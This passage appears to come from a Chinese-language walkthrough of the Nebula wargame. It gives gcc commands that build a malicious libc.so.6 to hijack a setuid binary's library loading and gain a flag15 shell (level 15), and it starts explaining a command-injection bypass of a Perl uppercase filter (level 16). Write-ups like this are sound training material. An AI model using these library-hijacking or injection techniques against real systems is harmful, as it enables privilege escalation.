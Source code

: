 编译成动态链接库

```bash
gcc -shared -o /var/tmp/flag15/libc.so.6 a.c
```

执行 setuid bin 试试

```bash
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol getegid, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

暴露了两个问题：
- 自己搞的这个 libc.so.6 没有 version information
- 因为没把正常 libc 链接到自己搞的这个 libc.so.6 里，找不到一些要用到的库函数

第一个问题，man ld 可以找到 --version-script 这个参数，需要建一个文件声明动态库版本，并增加对应链接参数

```
GLIBC_2.0 {};
```

第二个问题，也是加链接参数让 gcc 把正常 libc 静态链接进自己搞的这个 libc.so.6

最终的gcc命令：

```bash
gcc -shared -static-libgcc -o  /var/tmp/flag15/libc.so.6 a.c -Wl,-Bstatic,--version-script=v
```

最后执行 setuid bin

```bash
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 16

没用过 Perl，不过我猜和 level 02 差不多。

核心还是命令注入，只不过这次需要 bypass 这两个 filter

```perl
  $username =~ tr/a-z/A-Z/; # conver to uppercase
  $username =~ s/\s.*//;        # strip everything after a space
```

这要求注入的命令里的字母必须全部为大写，且不能含有空格。

首先写个脚本命名为 A 放在 /tmp 下面
